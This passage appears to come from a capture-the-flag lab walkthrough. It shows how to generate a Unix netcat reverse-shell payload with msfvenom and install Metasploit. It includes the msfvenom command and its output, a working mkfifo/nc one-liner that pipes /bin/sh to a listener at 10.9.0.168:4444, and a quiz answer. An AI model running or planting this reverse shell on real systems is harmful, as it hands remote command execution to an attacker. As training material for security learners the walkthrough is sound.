 ```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

- `-p` = payload
- `lhost` = our local host IP address (this is your machine's IP address)
- `lport` = the port to listen on (this is the port on your machine)
- `R` = export the payload in raw format

What word does the generated payload start with?

*Solution:* First I had to install Metasploit framework on my own PC:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod 755 msfinstall
./msfinstall
# Then run first-time setup:
msfconsole
```

Now `msfvenom` is available on my PATH.

To figure out the IP for the OpenVPN connection, use `ifconfig`

```bash
❯ ifconfig tun0
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.9.0.168  netmask 255.255.0.0  destination 10.9.0.168
        inet6 fe80::4f2a:ed4f:6106:1eef  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 114677  bytes 4599098 (4.5 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 115991  bytes 6990060 (6.9 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Finally, I used

```bash
❯ msfvenom -p cmd/unix/reverse_netcat lhost=10.9.0.168 lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 96 bytes
mkfifo /tmp/ejqzmj; nc 10.9.0.168 4444 0</tmp/ejqzmj | /bin/sh >/tmp/ejqzmj 2>&1; rm /tmp/ejqzmj
```

The payload is

```bash
mkfifo /tmp/ejqzmj; nc 10.9.0.168 4444 0</tmp/ejqzmj | /bin/sh >/tmp/ejqzmj 2>&1; rm /tmp/ejqzmj
```

***Correct answer: mkfifo***

Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:
